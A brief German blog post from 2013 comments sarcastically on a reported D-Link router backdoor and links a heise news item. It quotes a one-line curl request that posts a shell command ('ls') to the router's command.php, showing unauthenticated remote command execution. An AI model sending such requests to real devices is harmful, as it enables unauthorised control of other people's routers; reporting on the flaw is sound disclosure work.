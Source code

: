 Oh, das mit dem potentiellen Aberkennen des Bugs des \...
=========================================================

Date: 2013-02-06 13:35:22

Oh, das mit dem potentiellen Aberkennen des Bugs des Tages will D-Link
nicht auf sich sitzen lassen: [D-Link-Backdoor mit hohem
Convenience-Faktor](http://www.heise.de/-1796519):

    curl --data "cmd=ls" http:///command.php

Whoa!
